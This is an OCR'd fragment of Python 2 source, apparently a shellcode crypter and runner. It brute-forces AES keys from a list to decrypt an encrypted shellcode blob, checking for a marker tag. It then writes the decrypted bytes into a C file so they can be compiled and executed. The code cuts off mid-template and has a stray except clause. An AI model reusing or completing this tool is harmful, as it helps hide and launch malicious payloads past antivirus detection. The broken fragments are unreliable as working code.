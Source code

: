 ```python
		global keyList
		#here we're just trying every possible key until the decryption process spots our '\\xff\\xff...' tag and knows it found the right one
		print("\n[+] Bruteforcing key for decryption...")
		for x in keyList:
			aes = AES.new(x, AES.MODE_CBC, iv)
			decrypt = aes.decrypt(shellcode)
			output = "" 
			for x in bytearray(decrypt):		
				output += "\\x"
				output += '%02x'% x
			if "\\xff\\xff\\xff\\xff\\xff" not in output:
				continue
			else:
				output = output[28:]
				output = output.replace("\\x", r'\\x')				
				print("[+] Decrypted Shellcode: " + output)
				break
	
	except: 
		print "[!] Something went wrong with the decryption process."


def execute():
	try:
		global shellcode
		global iv
		global keyList
		#same decryption process as above
		for x in keyList:
			aes = AES.new(x, AES.MODE_CBC, iv)
			decrypt = aes.decrypt(shellcode)
			output = "" 
			for x in bytearray(decrypt):		
				output += "\\x"
				output += '%02x'% x
			if "\\xff\\xff\\xff\\xff\\xff" not in output:
				continue
			else:
				output = output[28:]
				output = output.replace("\\x", r'\x')				
				break
	
	except: 
		print "[!] Something went wrong with the decryption process."

	try:
		#just writing our output to a shellcode.c file and compiling/executing it
		code = output
		shellcodeFile = open("shellcode.c", "w")
		shellcodeFile.write("""#include<stdio.h>
#include<string.h>

unsigned char code[] = \\
\"""")
		shellcodeFile.close()
		shellcodeFile = open("shellcode.c", "a")
		shellcodeFile.write(code)
		shellcodeFile.close()
		shellcodeFile = open("shellcode.c", "a")
		shellcodeFile.write("""";

main()
```